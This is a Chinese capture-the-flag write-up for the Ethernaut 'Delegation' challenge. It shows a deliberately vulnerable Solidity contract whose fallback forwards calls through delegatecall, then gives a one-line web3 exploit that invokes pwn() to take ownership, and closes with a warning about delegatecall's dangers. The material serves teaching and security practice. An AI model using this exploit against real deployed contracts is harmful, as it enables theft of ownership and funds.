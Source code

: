 # 6.Delegation

## 题目描述

![img](/assets/PeiQi-Wiki/img/1645096948628-3f587ca7-be42-4caa-a2b8-c2f3b9c9edf8.png)

## 解题过程

题目源码

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

首先先理解 call函数 与 delegatecall函数 的区别

```javascript
call函数 外部调用时，上下文是外部合约
delegatecall函数 外部调用时，上下文是调用合约
```

![img](/assets/PeiQi-Wiki/img/1645191649528-10eadf0b-9033-4824-8262-25027eaaeaf8.png)

可以简单理解为 合约A通过 Delegatecall 调用合约B的方法时，相当于将该方法复制到 合约A 运行

![img](/assets/PeiQi-Wiki/img/1645191784663-2fc13a8c-61e2-4d16-a8d5-4af0272b3495.png)

```javascript
data 头4个 byte 是被调用方法的签名哈希，bytes4(keccak256("func"))
实际是向合约账户地址发送了 msg.data[0:4] == 函数签名哈希 的一笔交易
```

所以我们只需要像合约发送data, 来调用 pwn() 方法

```javascript
await contract.sendTransaction({data: web3.utils.sha3("pwn()").slice(0,10)});
```

![img](/assets/PeiQi-Wiki/img/1645309938555-60b8e256-8113-457e-888d-1e794c884d30.png)

根据交易hash 也可以看到调用方法细节

![img](/assets/PeiQi-Wiki/img/1645309966080-69137ec6-0fc2-4b07-ac39-8609bdbcc80d.png)

```javascript
使用delegatecall 是很危险的, 而且历史上已经多次被用于进行 attack vector. 使用它, 你对合约相当于在说 "看这里, -其他合约- 或是 -其它库-, 来对我的状态为所欲为吧". 代理对你合约的状态有完全的控制权. delegatecall 函数是一个很有用的功能, 但是也很危险, 所以使用的时候需要非常小心.
```